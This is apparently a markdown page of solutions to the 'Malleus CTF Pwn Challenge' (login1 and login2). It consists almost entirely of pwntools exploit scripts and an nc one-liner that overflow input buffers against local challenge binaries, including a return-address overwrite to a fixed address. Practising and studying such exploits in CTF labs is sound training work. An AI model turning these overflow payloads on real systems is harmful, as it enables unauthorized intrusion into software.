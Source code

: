 # Malleus CTF Pwn Challenge

- https://github.com/kusano/ctfpwn_challenge
- https://sanya.sweetduet.info/ctfpwn/

## login1

```python
#!/usr/bin/env python3
from pwn import ELF, context, log, process, remote
exe = context.binary = ELF('./login1')
# io = process([exe.path])
io = remote('localhost', 10001)
io.sendline(b'A' * 0x2d)
io.sendline(b'password')
io.recvuntil(b'The flag is: ')
log.success(io.recvline().decode())
io.close()
```

## login2

```python
#!/usr/bin/env python3
from pwn import ELF, context, log, p64, process, remote
exe = context.binary = ELF('./login2')
# io = process([exe.path])
io = remote('localhost', 10002)
io.sendline(b'admin')
target_addr = 0x401352
io.sendline(b'A'*0x48 + p64(target_addr))
io.recvuntil(b'The flag is: ')
log.success(io.recvline().decode())
io.close()
```

```zsh
python3 -c "import sys;a=b'\x46\x13\x40\x00\x00\x00\x00\x00';sys.stdout.buffer.write((a*10+b'\x0a')*2)"|nc localhost 10002
```
